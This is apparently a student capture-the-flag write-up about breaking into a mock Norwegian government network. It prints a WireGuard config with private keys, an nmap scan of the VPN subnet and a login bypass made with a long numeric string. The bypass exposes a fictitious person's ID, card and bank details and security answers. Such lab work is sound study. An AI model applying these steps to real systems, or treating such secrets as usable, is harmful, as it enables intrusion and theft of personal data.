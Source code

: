 # Attack 4

By using Jonas Dahl's password, we were able to retrieve
the configuration details for WireGuard, a VPN service.

This is the configuration we used for connecting our computer to WireGuard.

```
[Interface]
PrivateKey = GBxMK5VGw0W6LF5+p9xYqFr75ocG8CAITDBiZjU+W0M=
Address = 10.13.13.12
DNS = 9.9.9.9

[Peer]
PublicKey = Yg6iNtA7+F6AWfnuqCzJPx2cdHKcYOXSvz0LNx4sMjs=
PresharedKey = vTlp8jvQbTQPrNR4KmAKUuyje0DwqCKBnwqS2QpaF9g=
Endpoint = 64.225.76.73:51820
AllowedIPs = 0.0.0.0/0
```

Then we scanned with `nmap 22 10.13.13.0/24`.

The result of the command gave us this:
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-05 09:08 CET
Nmap scan report for 10.13.13.1
Host is up (0.015s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
53/tcp   open  domain
8080/tcp open  http-proxy

Nmap scan report for 10.13.13.12
Host is up (0.000052s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 10.13.13.253
Host is up (0.016s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 10.13.13.254
Host is up (0.016s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 256 IP addresses (4 hosts up) scanned in 2.97 seconds
```
Now after having scanned all the available ports, we checked out all the HTTP servers, thar revealed a login page.

During logging in to the HTTP page, there was no visual result. We could however see the result in inspect element showing HTTP status 200, with JSON content of `{"error": "Login failed"}`.

The first thing we tried was to enter "1111111111111111111111111111...", and hopefully try to evaluate potential booleans to true. After trying that, we got this result:

```json
{
  "name": "Jonas Dahl",
  "email": "jonas.dahl@regjeringen.no",
  "address": {
    "street": "Regjeringsgata 16",
    "city": "Oslo",
    "postal_code": "1111",
    "country": "Norway"
  },
  "phone": "+47 123 45 678",
  "birthdate": "1985-06-15",
  "gender": "Male",
  "national_id": "15068512345",
  "passport_number": "N12345678",
  "nationality": "Norwegian",
  "occupation": "Technical Officer",
  "company": {
    "name": "Regjeringen",
    "address": {
      "street": "Regjeringsgata 16",
      "city": "Oslo",
      "postal_code": "1111",
      "country": "Norway"
    },
    "phone": "+47 987 65 432",
    "industry": "Government",
    "position": "Technical Officer",
    "department": "Technical and Infrastructure",
    "start_date": "2010-05-01",
    "manager": "Ingrid Nilsen",
    "manger_username": "ingridnilsen"
  },
  "credit_card": {
    "type": "Visa",
    "number": "4111 2222 3333 4444",
    "expiration": "12/26",
    "cvv": "234",
    "cardholder_name": "Jonas Dahl"
  },
  "bank_account": {
    "bank_name": "Statens Bank",
    "account_number": "1234.56.78910",
    "iban": "NO1234567890123",
    "swift_bic": "STBANOXX"
  },
  "hidden_details": {
    "security_question": "Hva var navnet på din første lærer?",
    "security_answer": "Frøken Andersen",
    "pin": "5678",
    "mother_maiden_name": "Larsen"
  },
  "flag": "Dropbox is the flag :)",
  "dropbox": "https://dropbox.internal.regjeringen.uiaikt.no/"
}
```

As we can see from this JSON file, there is a hint near the bottom, telling us that "Dropbox is the flag" and to visit the Dropbox website.
